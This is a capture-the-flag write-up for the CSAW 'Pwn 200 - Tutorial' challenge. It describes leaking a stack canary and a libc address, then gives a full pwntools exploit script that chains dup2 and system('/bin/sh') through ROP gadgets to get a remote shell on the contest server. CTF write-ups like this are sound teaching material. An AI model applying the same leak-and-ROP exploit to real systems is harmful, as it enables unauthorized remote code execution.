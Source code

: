 # Pwn 200 - Tutorial

> Writeup by f0xtr0t (Jay Bosamiya)

This was a pretty fun challenge, solved by uchiha (Pankaj Kataria) and myself (f0xtr0t) during the contest.

Executing the [given executable](tutorial) with a numeric parameter sets up a server that listens on that TCP port, with the privileges of the user `tutorial`. I edited the fixed string to `jay` which is my user on my system, to make the [modified file](tutorial_mod), which is identical to the given file in all other respects.

Thereafter, we realized that there was a memory leak (in option `2`), which reveals the stack canary which is constant accross runs. Option `1` reveals a pointer with which we can compute libc base address.

Using these two, we realized that we would be able to do a `system('/bin/sh')` using a ret2libc. We wrote up quick code to be able to do this, and it seemed to work on our system, but not on the challenge server (though we were accounting for the libc difference).

After a while, we realized that though it was "working" on our system, the shell was being dropped on the server process, and not connected to the client. Doh! We needed to do a `dup2` to redirect stdin and stdout accross the network.

Some quick reversing told us that the file descriptor would be constant accross runs, and will also be a small number constant. We thus tried different values for that fd, until 4 worked, and we had a shell. :)

## [Exploit code](expl.py)

```python
from pwn import *

local = False

context(os = 'linux',
        arch = 'amd64',
        log_level = 'debug')

bin=ELF('./tutorial_mod')

if local:
    libc=ELF('/lib/x86_64-linux-gnu/libc.so.6')
else:
    libc=ELF('./libc-2.19.so')

sysOffset = libc.symbols['system']
putsOffset = libc.symbols['puts']

if local:
    import sys
    conn = remote('localhost', sys.argv[1])
else:
    conn = remote('pwn.chal.csaw.io', 8002)

conn.recvuntil('>')
conn.sendline('1')
putsAddr = int(conn.recvuntil('>').split()[0].split(':')[1],16)
libcBaseAddr = putsAddr + 1280 - putsOffset

sysAddr = libcBaseAddr+sysOffset
binShAddr = libcBaseAddr+libc.offset_to_vaddr(list(libc.search('/bin/sh'))[0])

conn.sendline('2')
conn.recvuntil('>')
conn.sendline('temp')
payload = conn.recvuntil('>')[:-39]

rop = ROP(bin)

payload += 'aaaa'

their_fd = 4

rop.raw(rop.find_gadget(['pop rdi', 'ret']).address)
rop.raw(their_fd)
rop.raw(rop.find_gadget(['pop rsi', 'pop r15', 'ret']).address)
rop.raw(0)
rop.raw(0xdeadbeef)
rop.raw(libc.symbols['dup2'] + libcBaseAddr)

rop.raw(rop.find_gadget(['pop rdi', 'ret']).address)
rop.raw(their_fd)
rop.raw(rop.find_gadget(['pop rsi', 'pop r15', 'ret']).address)
rop.raw(1)
rop.raw(0xdeadbeef)
rop.raw(libc.symbols['dup2'] + libcBaseAddr)

rop.raw(rop.find_gadget(['pop rdi', 'ret']).address)
rop.raw(binShAddr)
rop.raw(sysAddr)
payload += rop.chain()

conn.sendline('2')
conn.recvuntil('>')
conn.sendline(payload)

conn.interactive()
conn.close()
```
